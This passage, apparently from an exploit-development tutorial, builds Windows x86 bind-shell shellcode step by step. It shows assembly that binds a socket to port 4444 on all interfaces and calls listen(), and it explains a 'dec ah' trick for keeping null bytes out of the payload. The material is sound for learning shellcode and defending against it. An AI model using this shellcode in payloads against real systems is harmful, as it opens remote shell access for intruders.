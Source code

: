 What we need to do is to have a pointer to the following values and pass it as the second argument:
```
5c110002
00000000
```

Notice that there are null bytes in the value for AF_INET. This can be solved by storing 0x5c110102 in EAX and doing `dec ah`, which will only decrement the ah section of EAX by one. 

Explanation:
+ eax = 0x5c110102  
+ ax = 0x0102 (lowest 16 bits of eax)
+ al = 0x02 (lowest 8 bits of ax) 
+ ah = 0x01 (highest 8 bits of ax)  

```assembly
xor eax, eax         ; Clear eax
push eax             ; Push 0 on the stack to define INADDR_ANY.
mov eax, 0x5c110102 
dec ah               ; eax: 0x5c110102 -> 0x5c110002 (Mitigating null byte)
push eax             ; Push 0x5c110002 on stack
mov eax, esp         ; Since the 2nd argument is expected to be a pointer, we store the pointer to 0x5c110002 in eax
push 0x10            ; Arg3 (namelen) = 16 bytes
push eax             ; Arg2 (*addr) = eax -> 0x5c110002 (5c11 = 4444, 0002 = AF_INET)
push ebx             ; Arg1 (s) = WSASocket() handler
mov eax, 0x71AB4480  ; Address to bind()
call eax
```

The stack looks like this right before calling bind():

```
   Addr        Value
   00000001    00000064 (Arg1, SOCKET s)
   00000002    00000004 (Arg2, const sockaddr *addr) ---
   00000003    00000010 (Arg3, int namelenn)            |
-> 00000004    5c110002                                 |
|  00000005    00000000 (INADDR_ANY)                    | 
--------------------------------------------------------
```

## System call: listen

Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-listen">https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-listen</a>

Syntax:
```
listen(SOCKET s, int backlog)
```

To get incoming connections, we need to call the listen() function, which is very simple to implement.

```assembly
push 0x1             ; Arg2 (backlog) = 1         
push ebx             ; Arg1 (s) = WSASocket() handler
mov eax, 0x71AB8CD3  ; Address to listen()   
call eax
```
